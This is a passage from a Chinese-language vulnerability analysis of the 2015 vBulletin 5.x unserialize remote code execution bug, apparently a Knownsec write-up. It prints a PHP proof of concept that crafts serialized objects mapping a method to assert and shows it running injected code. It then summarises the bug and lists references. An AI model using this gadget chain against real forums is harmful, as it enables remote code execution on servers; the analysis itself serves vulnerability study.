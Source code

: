     
    
    #!php
    <?php
    class vB_Database_MySQL {
           public $functions = array();
           public function __construct() {
                   $this->functions['free_result'] = 'assert';
           }
    }    
    
    class vB_dB_Result {
           protected $db;
           protected $recordset;
           public function __construct() {
                   $this->db = new vB_Database_MySQL();
                   $this->recordset = 'print("This Vuln In 5.1.7")';
           }
    }    
    
    print urlencode(serialize(new vB_dB_Result())) . "\n";
    

测试一下，成功执行 `assert('print("This Vuln In 5.1.7")')`：

![](http://static.wooyun.org//drops/20151109/201511091552176665055.png)

当然了，PoC 不止上面所提供的这一种写法，仅供参考而已。

# 0x02 小结

* * *

此次 vBulletin 5.x.x RCE 漏洞的曝光，从寻找触发点到对象的寻找，再到各种自动加载细节，不得不说是一个很好的 PHP反序列化漏洞实战实例。不仔细去分析真的不能发现原作者清晰的思路和对程序的熟悉程度。

另外，[Check Point](http://blog.checkpoint.com/)在其官方博客上也公布了反序列化的另一个利用点，通过反序列化出一个模版对象最终调用 `eval()`函数进行执行（[原文](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)）。

# 0x03 参考

* * *

  * <http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq>
  * <https://www.owasp.org/index.php/PHP_Object_Injection>
  * <http://php.net/manual/en/class.iterator.php>
  * <http://www.php.net/manual/en/function.autoload.php>
  * <http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/>
  * <http://www.sebug.net/vuldb/ssvid-89707>

原文出处：<http://blog.knownsec.com/2015/11/unserialize-exploit-with-vbulletin-5-x-x-remote-code-execution/>

